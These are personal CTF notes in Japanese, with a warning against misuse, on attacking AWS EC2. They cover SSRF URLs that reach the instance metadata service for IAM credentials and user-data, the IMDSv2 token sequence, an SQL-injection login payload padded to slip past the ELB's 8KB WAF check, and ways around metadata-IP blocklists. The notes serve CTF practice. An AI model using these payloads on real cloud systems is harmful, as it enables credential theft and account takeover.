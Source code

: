 # メモ
- CTFのための個人的なメモ、整理移動後に削除予定
- CTF用途のみでの利用を厳守。悪用厳禁。公開環境に攻撃することは犯罪になります。

## EC2

### SSRF
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md#ssrf-url-for-cloud-instances
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md#bypass-localhost-with-
- EC2のメタデータにアクセス
    - IPv4
        - http://169.254.169.254/latest/meta-data/
    - IPv6
        - http://\[fd00:ec2::254\]/latest/meta-data/

### エンドポイント例
- http://169.254.169.254/latest/meta-data/iam/security-credentials/S3Role
- http://\<ip-address\>/request?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/ec2_role
- curl http://\<ip-address\>/request?url=http://169.254.169.254/latest/user-data
- http://169.254.169.254/latest/dynamic/instance-identity/document #リージョン情報、アカウントID
- http://169.254.169.254/latest//meta-data/ #メタデータ
- http://169.254.169.254/latest//meta-data/iam/security-credentials/ #クレデンシャルの一覧
- 

### よそへ飛ぶ
- http://\<ip-address\>/request?url=http://google.com

### WAf回避
- ELBは先頭8KBをチェック
    - curl -X POST http://\<endpoint\>/login.php/ -d "test=aaaaa...aa&username=user123&password=1'or'1'='1';--"-v

### シンプルに取れないパターン
- IMDSv2のトークンをリクエストに付与しないといけないパターン
    - curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"
    - curl -H "X-aws-ec2-metadata-token: $TOKEN" -v http://169.254.169.254/latest/meta-data/ #これでメタデータ
    - curl -H "X-aws-ec2-metadata-token: $TOKEN" -v http://169.254.169.254/latest/meta-data/iam/security-credentials/S3Role　#これで認証情報
- httpsしか使ってはダメとフロント制限があるパターン
    - DevTools で直接patternを消してしまう
        -  \< ... pattern="https://.+"\> #ここ
 - ブラックリストで169.254.269.254が封じられているパターン
     - Ipv6
     - 短縮URL
     - 8進数
